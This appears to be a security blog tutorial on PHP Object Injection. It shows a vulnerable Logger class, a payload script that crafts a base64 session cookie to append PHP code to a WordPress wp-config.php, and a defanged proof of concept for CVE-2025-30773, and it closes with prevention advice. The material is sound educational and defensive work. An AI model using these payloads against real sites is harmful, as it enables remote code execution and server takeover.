


# The PHP Serial Killer: Unsafe Deserialization

Some vulnerabilities go unnoticed until it's too late, and PHP Object Injection is definitely one of them. This often-overlooked vulnerability allows an attacker to inject manipulated PHP objects into an application, triggering a series of devastating consequences such as remote code execution, unauthorized file access, or privilege escalation.

This type of attack is particularly dangerous because it's not always evident at first glance. It can lie dormant in the code for years until an attacker discovers how to exploit it. What appears to be a simple functionality for storing or transmitting data can turn into a backdoor that ends up compromising the integrity of the system.

## What is a PHP Object Injection vulnerability?

PHP Object Injection vulnerability occurs when an application deserializes attacker-controlled data without proper validation. To better understand it, imagine an application using serialization to store objects in cookies, databases, or user input parameters. If an attacker can manipulate this serialized data, they can inject malicious objects that, when deserialized, execute unintended code.

A simple example:

```php
<?php
class User {
    public $username;
    public $isAdmin = false;
}

$username = new User();
$user->username = "JohnDoe";

$serialized = serialize($user);
echo $serialized;
?>
```

An attacker who can modify the input of this object could change the isAdmin property to true, gaining unauthorized access to restricted parts of the system. While this can already pose a danger, the real problem arises when the application deserializes objects from classes containing "magic methods" such as `__wakeup()` or `__destruct()`, often leading to arbitrary code execution.

### Magic Methods

In PHP, magic methods are special functions within a class that are automatically executed under certain conditions. Some of the most relevant are:

- `__wakeup()`: Executed when deserializing an object and typically used to initialize properties.
- `__destruct()`: Called when an object is destroyed. If implemented insecurely, an attacker could manipulate code execution at the end of the object's lifecycle.
- `__toString()`: Invoked when an object is treated as a string. If dynamic code is executed within this method, it could be exploited to run arbitrary commands.

## Impact of a PHP Object Injection vulnerability

The impact of this vulnerability varies greatly depending on the context of the affected application. In some cases, the vulnerability can allow an attacker to escalate privileges, granting them greater control over the affected system. This could lead to manipulation of critical configurations, creation of backdoors for future access, or even disabling security measures implemented in the application.

Another possible exploitation scenario is the combination of PHP Object Injection with other vulnerabilities present in the application or third-party libraries. This could potentially allow remote code execution (RCE), enabling the attacker to take full control of the server and compromise other related systems.

## Example of PHP Object Injection exploitation

To illustrate a practical case of exploitation, let's consider an application that uses serialization to manage log files on a WordPress site.

Vulnerable code:

```php
<?php
class Logger {
    public $logFile = "logs/app.log";
    public $message;

    public function __destruct() {
        file_put_contents($this->logFile, $this->message . "\n", FILE_APPEND);
    }
}

$cookie = $_COOKIE['session'] ?? '';
$logEntry = unserialize(base64_decode($cookie));
?>
```

In this case, if an attacker can manipulate the session cookie, they could inject a malicious object to overwrite $logFile and add anything to the target file using the message parameter. The payload could be generated as follows:

Exploitation:

```php
<?php
class Logger {
    public $logFile = "/var/www/htlm/wordpress/wp-config.php";
    public $message;

    public function __destruct() {
        file_put_contents($this->logFile, $this->message . "\n", FILE_APPEND);
    }
}

$payload = new Logger();
$payload->message = "<?php phpinfo(); ?>";
$session = base64_encode(serialize($payload));
echo "session=$session";
?>
```

If the attacker manages to get this cookie deserialized, the malicious input will be added to the file, appending arbitrary PHP code that will be executed when accessing the file.

### Real example, developing a PoC for CVE-2025-30773

In this example, we'll see a real case for a recently disclosed vulnerability, [CVE-2025-30773](https://www.cve.org/CVERecord?id=CVE-2025-30773){:target="_blank"}.

<figure markdown="span">
    
      <figcaption>Publication of CVE-2025-30773</figcaption>
</figure>


As we can see, it affects all versions up to 2.9.7, so we can look at what changed between 2.9.6 and 2.9.7 to find the entry point and reproduce the vulnerability. We'll go to the [WordPress plugins svn](https://plugins.trac.wordpress.org/changeset?new=3257963%40translatepress-multilingual%2Ftrunk&old=3253844%40translatepress-multilingual%2Ftrunk){:target="_blank"}. There we'll find the following change in a file where `unserialize` is replaced by `json_decode`:

<figure markdown="span">
    
  <figcaption>Relevant Change</figcaption>
</figure>

Reading the code, we see that the deserialized object comes from `trp_updb_extra_params`. We just need to see where we can manipulate this parameter, and we'll be able to make our functional Proof of Concept.

After deploying the plugin in a testing instance and reviewing the code more thoroughly, we see that this parameter is passed when updating the database tables, i.e., when calling the `trp_update_database` action.

To avoid giving a PoC of an RCE for a recently published vulnerability, in my case, I'm going to add a testing class to the code that simply prints that the object to be deserialized has been injected. Although it's quite trivial to get a proof of concept with a functional gadget.

```php
<?php
class ObjectInjection
{
   public $test;

   function __destruct(){
        die("PHP Object Injection triggered destruct: " . $this->test);
   }

  function __wakeup(){
        die("PHP Object Injection triggered wakeup: " . $this->test);
   }
}
?>
```

With this, we can construct a payload to call this class as follows:

```php
<?php
class ObjectInjection
{
   public $test;

   function __destruct(){
        die("PHP Object Injection triggered destruct: " . $this->test);
   }

  function __wakeup(){
        die("PHP Object Injection triggered wakeup: " . $this->test);
   }
}

$a = new ObjectInjection();
$b = base64_encode(serialize($a));
echo $b;
?>
```

And use it during the update by substituting the parameter with our payload:

<figure markdown="span">
    
  <figcaption>Proof of Concept</figcaption>
</figure>

## How to prevent PHP Object Injection vulnerabilities

To mitigate the risk of PHP Object Injection, it's essential to follow good security practices in development:

- Avoid using `unserialize()` with untrusted data: Always prefer secure data formats like JSON instead of PHP serialization.

- Implement an allowlist of permitted classes when deserializing objects: PHP 7.0 introduces `unserialize()` with allowed_classes to restrict which classes can be deserialized.

- Remove unnecessary classes with dangerous magic methods.

- Conduct regular security audits and penetration testing.

The PHP Object Injection vulnerability may seem like a minor technical issue, but in the right context, it becomes a dangerous tool for attackers. Applying appropriate preventive measures is key to keeping our applications secure and protected from potential exploitations.

Stay safe. Stay smart. Stay secure.

---
